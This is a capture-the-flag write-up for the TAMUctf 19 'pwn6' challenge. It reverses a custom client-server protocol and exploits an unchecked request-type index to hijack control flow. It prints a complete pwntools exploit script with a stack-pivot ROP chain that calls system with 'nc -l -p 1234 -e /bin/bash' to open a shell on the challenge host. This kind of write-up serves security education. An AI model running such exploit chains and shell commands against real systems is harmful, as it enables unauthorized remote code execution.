






# TAMUctf 19

## pwn6

## Information

**Category** | **Points** | **Solves** | **Writeup Author**
--- | --- | --- | ---
PWN | 500 | 35 | [merrychap](https://github.com/merrychap)

**Description:** 

> Setup the VPN and use the client to connect to the server. The servers ip address on the vpn is 172.30.0.2. Difficulty: hard

**Files:**

[server](./server)

[client](./client)

## Initial information

It's quite interesting that we're given not only a server binary but a client. Apparently, there is some specific communication protocol between a client and a server.

Sadly, I lost both reversed binaries (don't solve CTFs in `/tmp` directory), so I will only describe the solution in general, without too specific code examples.

There is already [writeup](https://ctftime.org/writeup/13673) on this task from OpenToAll. They used format string bug to exploit the server. And I suppose many solutions were based on this bug. My solution doesn't use inner sqlite database and any of the designed functions, so I guess this solution would be an interesting approach to you to explore. 

## Reversing client

Basically, the client connects to the specified server and can produce different designed functions as `check balance`, `create an account`, `create a user` and others. You decide which function to use.

Message from the client to the server looks like the following:

```
|     4 bytes    |    4 bytes   |  arbitrary   |
| payload length | request type | payload data |
```

To simplify the communication and throw away the client binary, we can write our own python client:

```python
def send_msg(pc, type, indata, size=None):
    if size is None:
        size = len(indata)

    data = ''
    data += p32(size)
    data += p32(type)
    data += indata

    pc.send(data)
```

Now we're done with the client and can proceed to the server binary.

## Reversing server

This is a statically linked binary, so we have a lot of functions inside of it. Basically, it's a simple non-blocking socket server that handles connections and incoming data. The main function looks as follows:

<p align="center">
  
</p>

The reason why I show you this function is the stack variable called `server`. This is a very important variable and contains a lot of information inside. In particular, it **contains our request** which will play an important role further.

Now let's take a look at the function that processes incoming data:

<p align="center">
  
</p>

Looks creepy, right? And it really does :D

`incoming_info` is a structure that contains all the needed information about incoming data. In particular, it has handlers for various requests (do you remember `request_type` I talked about earlier?). So, the binary checks that there is a handler for this `req_type` and if it is, then it calls it. In general, it looks something like this:

```python
    incoming_info[2 * (data.req_type + 4) + 4](server, incoming_info)
```

Also, `incoming_info` is on the heap and it's important too.

To summarize, the server gets a request, looks at `req_type` and calls correspond handler for this request.

## Exploitation

Alright, `incoming_info` is on the heap and `req_type` is an offset where the handler is placed. And we control `req_type`. So, we can specify some big number and go out of the `incoming_info` chunk. Let's explore the heap layout on the moment of checking handler existence.

We send `"A" * 0x4b0` as the data we want to be processed by the server.

<p align="center">
  
</p>

- `rsi` is `incoming_info`
- `rcx` is our data

<p align="center">
  
</p>

As you can see, our controlled input is below of `incoming_info`, and it gives us an opportunity to call one arbitrary function! This is cool, but we don't control `rdi` in a way to call `system("any command here")`. So, we need to control `rdi` somehow.

I hope you remember that our incoming data is stored on the stack as well (in `server` variable)

<p align="center">
  
</p>

And my final idea was next:

- We have a statically linked binary which has a lot of different gadgets

- We can call one arbitrary function

- Our input is stored on the stack

So, having all of these, we can try to call gadget that will shift `rsp` to our controlled input and make ROP chain to put any string into `rdi` and call `system`. Yay, that's all folks.

That gadget will shift rsp to our controlled input on the stack.

```
0x0000000000409070 : add rsp, 0x58 ; ret
```

The main problem was to control rdi, so my ROP chain was a little bit tricky:

```python
payload = p64(mov_rax_r13_pop_pop_pop) + p64(0) + p64(0) + p64(0) + \
        p64(pop_rsi) + p64(0x870) + \
        p64(sub_rax_rsi) + \
        p64(push_rax_pop_rbx) + \
        p64(pop_r12) + p64(pop_rax) + \
        p64(mov_rdi_rbx_call_r12) + \
        p64(system)
```

As long as `stdout` and `stderr` aren't dup into connecting socket, we need to open reverse shell. Since we control string for `system` it's not a problem at all.

The final exploit is next:

```python
from pwn import *


def send_msg(pc, type, indata, size=None):
    if size is None:
        size = len(indata)

    data = ''
    data += p32(size)
    data += p32(type)
    data += indata

    pc.send(data)


def main():
    system = 0x401A10
    
    add_rsp = 0x409070
    
    pops = 0x4021cc
    mov_rax_r11_pop_pop_pop = 0x40a771
    mov_rdi_rbp_call_rax = 0x421678
    add_ebp_eax = 0x409267
    pop_rax = 0x409073
    push_rax_pop_rbx = 0x44f262
    mov_rax_r13_pop_pop_pop = 0x40c80a
    
    mov_rdi_rbx_call_r12 = 0x4a7f8c

    add_rax_rdx = 0x40e7ed
    sub_rax_rsi = 0x4096cf
    
    pop_rsi = 0x401e89
    pop_rdx = 0x4bb28e
    pop_r12 = 0x402048
    
    cmd = 'nc -l -p 1234 -e /bin/bash' + '\x00'

    # pc = remote('127.0.0.1', 6210)
    pc = remote('172.30.0.2', 6210)

    payload = p64(mov_rax_r13_pop_pop_pop) + p64(0) + p64(0) + p64(0) + \
        p64(pop_rsi) + p64(0x870) + \
        p64(sub_rax_rsi) + \
        p64(push_rax_pop_rbx) + \
        p64(pop_r12) + p64(pop_rax) + \
        p64(mov_rdi_rbx_call_r12) + \
        p64(system)

    send_msg(pc, 109, ('A' * 8) + 4 * p64(pops) + \
        p64(add_rsp) + p64(0x41424344) + \
            payload + cmd + \
            'B' * (0x4b8 - len(payload) - len(cmd)), 0)

    pc.interactive()


if __name__ == '__main__':
    main()
```

## Flag

After running the exploit we just connect to the opened reverse shell and get our flag

<p align="center">
  
</p>

> Flag: gigem{dbff08334bfc2ae509f83605e4285b0e}

## Little notes

I talked to admin of this task and he said that this service was designed as pwn playground and there were a lot of different vulns. But my way of exploitation doesn't use any of designed function and sqlite database. I hacked the way of communication between the client and the server. So, it was pretty cool and interesting challenge. Thanks to the admin!

And Konata picture as a reward for the stolen flag :D

<p align="center">
  
</p>